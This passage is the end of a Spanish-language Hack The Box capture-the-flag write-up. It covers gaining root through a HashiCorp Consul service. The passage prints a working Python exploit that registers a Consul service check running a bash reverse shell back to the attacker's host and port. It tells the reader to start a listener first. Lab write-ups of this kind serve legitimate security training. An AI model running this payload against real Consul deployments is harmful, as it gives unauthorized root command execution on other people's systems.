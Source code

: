 Se usa principalmente en arquitecturas de microservicios y entornos cloud para gestionar la comunicación y configuración de servicios distribuidos.

Funciona con un modelo cliente-servidor y utiliza un almacén de datos key-value distribuido para mantener la información.

### Consul exploit

[Exploit-DB](https://www.exploit-db.com/exploits/51117)

Buscando encontramos un exploit para consul que permite ejecutar una shell reversa como administrador.

Como en este caso es un servicio local y el usuario ya se encuentra autenticado hay que modificar el exploit para que no tome este token.

```python
import requests, sys

if len(sys.argv) < 5:
   print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
   exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
   requests.put(target, json=json)
   print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
   print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```
[![consul](/assets/img/posts/heal_htb/consulexploit.png)](/assets/img/posts/heal_htb/consulexploit.png)

## Root shell

> **Nota**: Recuerda iniciar el puerto de escucha en tu máquina local.
{: .prompt-info }

[![root](/assets/img/posts/heal_htb/root.png)](/assets/img/posts/heal_htb/root.png)